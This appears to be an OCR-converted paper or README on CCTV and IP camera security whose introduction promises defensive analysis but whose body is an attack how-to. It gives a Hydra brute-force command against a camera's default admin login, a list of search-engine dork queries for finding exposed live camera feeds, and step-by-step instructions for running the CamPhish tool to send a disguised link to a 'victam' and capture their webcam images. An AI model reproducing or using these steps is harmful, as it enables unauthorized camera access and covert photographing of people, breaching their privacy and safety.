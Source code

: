 **Introduction**

CCTV camera use is becoming more and more widespread, especially for
security

purposes. Such surveillance tactics must be weighed against the privacy
rights of those

being watched, though. Closed-circuit TV, IP camera, and video
surveillance systems

have almost become pervasive and necessary for many enterprises,
organizations, and

people. Physical security, increased safety, and crime prevention are
their primary goals.

They also become more complicated, containing several communication
channels,

embedded hardware, and complicated firmware. The majority of research to
far, however,

has mostly addressed the privacy concerns of such systems and has not
sufficiently

addressed their problems with cyber-security in general and attacks on
the visual layer

> (i.e., imagery semantics) in particular.

Based on publicly accessible data, I undertake a thorough analysis of
the recent and

ongoing threats to IPcamera, closed-circuit TV, and video surveillance
systems in this

study. The information gained from these insights can subsequently be
utilized to better

comprehend and identify the security and privacy issues connected to the
creation,

distribution, and usage of these systems. When evaluating the
cyber-security level of

current or new CCTV designs and deployments, include both existing and
innovative

threats, along with their current or potential countermeasures, and
summarize this

> knowledge.
>
> I also offer some suggestions and defenses that can assist raise the
> security and privacy levels offered by the hardware, firmware, network
> communications, and operation of security camera systems. The research
> presented in this paper should help readers gain significant insight
> into the danger environment to which these systems are exposed. I also
> hope that it will encourage additional study and broaden the field\'s
> existing horizons. The use of CCTV surveillance is widespread and
> current in a wide range of contexts. The core component of a CCTV
> system is a human observer\'s accurate image interpretation, whose
> efficacy is impacted by a variety of factors.
>
> **Techniques for Cctv Camera Hacking**\
> Network vulnerabilities: Potential DVR, NVR, or IP camera assaults a)
> Password disruption due to a man in the middle.
>
> b\) Brute-force attacks\
> c) The dictionary attack, which involves using a string of words as a
> password.
>
> d\) Making use of security holes in services (like web servers) e)
> Denial of Service attack (many concurrent requests for connections).
>
> f\) Social engineering (information gathering through other people) g)
> Network inspection and manufacturer default usage passwords.
>
> h\) Invasion by viruses designed specifically for these gadgets.
>
> i\) Previous technicians, personnel, or other individuals undermine
> the system.
>
> You can use Hydra for Linux/Windows and you need to have your password
> file ready with the words you want to use. (Hydra is used to crack the
> password in the brute force manner )\
> Use the command:\
> hydra -s 88 -l admin -P /root/desktop/pass.txt -e ns\
> Where, \
> 1. s88 -\> the port number on the IP camera. \
> 2. l admin -\> default login name that will be used (admin). \
> 3. p /root/desktop/pass.txt -\> your password list file.  e -\> empty
> password. 4. ns -\> try login and empty password.
>
> **How to acquire the IP camera information:**\
> You can hack a camera such a Hikvision Camera by simply sending a
> command that retrieves the camera\'s information or by taking a
> screenshot. This is another approach to exploit firmware.
>
> CCTV Camera Code List\
>  inurl:/view.shtml\
>  inurl view index.shtml\
>  inurl view index.shtml near me\
>  inurl:ViewerFrame?Mode=\
>  inurl:ViewerFrame?Mode=Refresh\
>  inurl:view/index.shtml\
>  inurl:view/view.shtml\
>  intitle:"live view" intitle:axis\
>  intitle:liveapplet\
>  intitle:axis intitle:"video server"\
>  inurl /view/index.shtml school\
>  inurl view index shtml cctv
>
> The toll widely used to is : Camp Pish\
> Github: [https://github.com/techchipnet/CamPhish.git]{.underline}\
> CamPhish is techniques to take cam shots of target\'s phone front
> camera or PC webcam. CamPhish Hosts a fake website on in built PHP
> server and uses ngrok & serveo to generate a link which we will
> forward to the target, which can be used on over internet. website
> asks for camera permission and if the target allows it, this tool grab
> camshots of target\'s device
>
> In this tool two automatic webpage templates for engaged target on
> webpage to get more picture of cam
>
> Festival Wishing\
> Live YouTube TV\
> Online Meeting \[Beta\]
>
> simply enter festival name or youtube\'s video ID\
> Step1) install git and openssh\
> Step2 ) git clone
> [https://github.com/techchipnet/CamPhish.git]{.underline}

![](vertopal_7fcf7a8acdc74d50b04717fd1a3f3d40/media/image1.png){width="5.991666666666666in"
height="3.35in"}

> Step3 ) Navigate to Camphish folder and run campish.sh file by bash
> camphish.sh
>
> ![](vertopal_7fcf7a8acdc74d50b04717fd1a3f3d40/media/image2.png){width="5.991666666666666in"
> height="3.2999989063867017in"}

![](vertopal_7fcf7a8acdc74d50b04717fd1a3f3d40/media/image3.png){width="5.998611111111111in"
height="3.116665573053368in"}

> Home page of Camphish
>
> Step 4: Chose 2 and enter id youtube video
>
> ![](vertopal_7fcf7a8acdc74d50b04717fd1a3f3d40/media/image4.png){width="5.9944444444444445in"
> height="3.359721128608924in"}
>
> Step 5 : Let all setting to be default (hit enter until you get
> Starting serveo)
>
> Step 6: share the dirct link to victam

![](vertopal_7fcf7a8acdc74d50b04717fd1a3f3d40/media/image5.png){width="5.998611111111111in"
height="3.3333333333333335in"}

> Step 7 ) You will get the cam file recived (press Ctrl+c to end
> session )
>
> ![](vertopal_7fcf7a8acdc74d50b04717fd1a3f3d40/media/image6.png){width="6.0in"
> height="3.3125in"}
>
> Step 8) Recived Images will be stored in the Camphish folder

![](vertopal_7fcf7a8acdc74d50b04717fd1a3f3d40/media/image7.png){width="5.991666666666666in"
height="3.1805555555555554in"}

> Captured Images

![](vertopal_7fcf7a8acdc74d50b04717fd1a3f3d40/media/image8.png){width="6.0in"
height="3.1666666666666665in"}
